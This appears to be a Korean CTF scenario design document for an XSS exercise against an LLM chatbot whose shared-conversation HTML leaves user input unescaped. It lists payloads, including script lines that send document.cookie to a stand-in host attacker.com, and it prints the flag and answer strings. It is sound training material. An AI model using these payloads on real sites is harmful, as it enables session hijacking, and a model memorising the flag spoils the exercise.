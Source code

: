 # 🧩 CTF 시나리오 05: 부적절한 출력 처리 (Improper Output Handling / XSS)

<br>

## 📌 시나리오 ID

`SCENARIO_05`

## 🧠 시나리오 개요

이 시나리오는 Cross-Site Scripting(XSS) 취약점이 존재하는 웹 챗봇 시스템인 ChatLLL을 대상으로 한다. 공격자는 사용자의 입력이 출력 시 적절히 이스케이프되지 않는다는 점을 악용하여, 공유 HTML 파일에 악성 JavaScript를 삽입하고, 이를 통해 관리자 세션 쿠키(`admin_session`)를 탈취하는 것이 목표이다.

<br>

## 🎯 시나리오 목표

* 사용자 입력을 통한 악성 스크립트 삽입
* 공유 HTML 기능을 통해 관리자 봇에게 해당 HTML 열람 유도
* XSS 실행 시 `admin_session=ctf05_flag{XSS_1n_5h4r3d_C0nv3r54710n5!}` 쿠키를 탈취하여 외부로 전송

<br>

## 🛠️ UI 구성 요소

| 구성 요소 | 설명 |
|-----------|------|
| 👀 헤더 및 문제 설명 | 시나리오 제목, 설명 문구 표현 |
| 📥 프롬프트 입력창 | 사용자가 질문을 입력 |
| 🧪 LLM 응답 출력창 | 시스템 프롬프트에 따라 응답이 다르게 출력 |
| 💬 대화 내용 공유 창 | 대화 내용 공유 |
| 🎯 힌트 보기 버튼 | 버튼 클릭 시 힌트 메시지 표시 (공격 방향 가이드 제공) |
| 🏁 FLAG 제출창 | 획득한 flag를 입력하여 정답 여부 확인 |

<br>

## 💥 공격 흐름 예시
### 1. 🔥 공격 기법

| 기법 | 설명 |
|-----------|------|
| `<script>` 삽입 | `<script>alert(1)</script>` 형태로 기본적인 XSS 실행                               |
| 쿠키 탈취         | `<script>location.href='http://attacker.com?c='+document.cookie</script>` |
| 이미지 오류 이벤트    | `<img src=x onerror=alert('XSS')>`                                        |
| HTML 엔티티 우회   | `&lt;script&gt;alert(1)&lt;/script&gt;`                                   |
| DOM 조작        | `<script>document.body.innerHTML='hacked'</script>`                       |

## 🕸️ 시스템 구성 및 동작 흐름
| 단계 | 설명                                                                                    |
| -- | ------------------------------------------------------------------------------------- |
| 1  | 사용자가 메시지를 입력하면 `conversation_history`에 저장됨                                            |
| 2  | `ctf05_LLM_ask()` 함수가 GPT-3.5-turbo를 호출해 응답 생성                                        |
| 3  | `ctf05_generate_share_html()` 함수가 대화 내역을 HTML 파일로 변환함. 이때 사용자 입력이 escape되지 않고 그대로 삽입됨 |
| 4  | `ctf05_admin_bot_visit()` 함수가 관리자의 HTML 열람을 헤드리스 브라우저로 시뮬레이션함                         |
| 5  | 악의적 JavaScript가 실행되어 `document.cookie`를 통해 쿠키가 탈취됨                                    |

<br>

## ✅ 테스트 케이스 예시

| 입력 | 기대 응답 |
|------|-----------|
| `안녕하세요`                                                          | 정상 HTML 생성, XSS 없음  |
| `<script>alert(1)</script>`                                      | 관리자 브라우저에서 alert 실행 |
| `<img src=x onerror=alert('XSS')>`                               | 관리자 브라우저에서 alert 실행 |
| `<script>fetch('http://attacker.com?'+document.cookie)</script>` | 쿠키 탈취 가능            |

<br>

## 🛡️ 위협 요소 및 대응 방안

| 위협               | 설명               | 대응 방안                           |
| ---------------- | ---------------- | ------------------------------- |
| 세션 쿠키 탈취         | 관리자 인증 우회 가능     | `HttpOnly`, `Secure` 속성 사용      |
| 관리자 권한 탈취        | 민감 정보 접근, 시스템 조작 | 사용자 입력 검증 및 출력 인코딩              |
| JavaScript 임의 실행 | 악성 행위 유도         | CSP(Content Security Policy) 적용 |

<br>

## ✅ 보안 권장 사항

* 사용자 입력은 반드시 출력 전 `html.escape()` 처리 또는 Jinja2 autoescape 기능 사용
* CSP 적용을 통해 인라인 및 외부 스크립트 제한
* 모든 사용자 입력에 대한 서버 측 필터링 적용
* `HttpOnly`, `Secure` 쿠키 설정으로 브라우저 접근 차단

<br>

## 🧪 Flag 제출 방식

사용자는 획득한 Flag를 다음과 같이 제출합니다:

```bash
flag{llm_xss_success}
```

* 정답 시: `✅ 정답입니다!`
* 오답 시: `❌ 틀렸습니다.`

<br>

## 🔐 모델 요구 조건

* 관리자 브라우저에서 악성 스크립트가 실행되어야 함

* `admin_session` 쿠키를 외부 서버로 전송해야 함

* 플래그: `ctf05_flag{XSS_1n_5h4r3d_C0nv3r54710n5!}`